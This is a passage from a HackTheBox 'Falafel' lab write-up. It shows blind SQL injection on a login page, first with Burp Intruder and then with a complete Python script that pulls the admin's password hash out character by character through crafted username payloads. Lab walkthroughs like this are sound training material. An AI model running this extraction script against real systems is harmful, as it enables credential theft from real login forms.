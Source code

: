 Next step to set a payload, we'll select Brute Forcer. Modify the character set, as below:

![Setting Payload](/HackTheBox/htb-falafel-writeup-w-o-metasploit/8_sub_burp2.png)

To make our life easier, we could put the "right" error string in the "Grep Match" section so that the request that matches as per our error will get marked.

![Grepping Error](/HackTheBox/htb-falafel-writeup-w-o-metasploit/8_sub_burp3.png)

We're now ready to "Start Attack"ing. Once we do, we soon find that the first character of the admins' hash is zero (0). We can now pause the attack since we already got what we needed from this injection.

![Getting The First Character](/HackTheBox/htb-falafel-writeup-w-o-metasploit/8_sub_burp4.png)

We were successfully able to leverage BurpSuite Intruder to extract the first character of admins' hash and can see that it is "0" (Zero).

### Hash Extraction - Python Edition

*Note: Link to the scripts are at the bottom*

Although that was nice and we could perform a little more tweaking and get the entire hash, it would be a whole LOT faster if we whipped up a script of our own and got this done, which is what we will be doing now.

I wrote the script in python to get the admin's hash.

``` python
# Importing necessary library
import requests

# This function generates SQL injection payload to fetch the hash, for each index (i) and character (c) passed to the function
def SQLpayload(i,c):
    return "admin' AND substring(password,%s,1)='%s'-- -" % (i,c)


# All the characters in a hash
characters = 'abcdef0123456789'

# "hash" comes as highlighted on python and I did not wanna mess with something I didn't know
# so I'm using "password" to store the hash lol
password = '' # Blank hash string

# Loop through every index position : 1 to 32
for i in range(1,33):
# Loop through every character in the "characters" for each index position
    for c in characters:
    # Defining a payload to be sent to the server
        payload = {'username':SQLpayload(i,c), 'password':'noobsec'}
        # Sending a post request with the above payload and it's data and response is saved in "r"
        r = requests.post('http://10.10.10.73/login.php',data=payload)
        # Checking if "right" error is hit at an index for a character
        if "Wrong identification" in r.text:
        # If right error is hit, append the character to the password string
            password += c
            # Print the character on the screen without moving the cursor to a new line
            # Helps in knowing the script is actually working and you're not sitting there for a few minutes just to realize it is broken
            print(c,end='',flush=True)
            # No need to cycle through the rest of the characters if the "right" error is already hit for an index position
            break

# Print the hash
```